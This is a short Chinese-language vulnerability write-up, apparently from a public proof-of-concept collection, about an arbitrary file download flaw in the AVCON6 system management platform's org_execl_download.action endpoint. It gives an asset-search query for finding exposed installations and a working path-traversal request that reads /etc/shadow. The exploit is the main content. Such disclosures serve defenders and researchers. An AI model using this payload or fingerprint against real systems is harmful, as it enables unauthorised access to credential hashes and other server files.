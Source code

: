 # AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

# AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](/images/202202101910822.png)

验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

![img](/images/202202101910818.png)

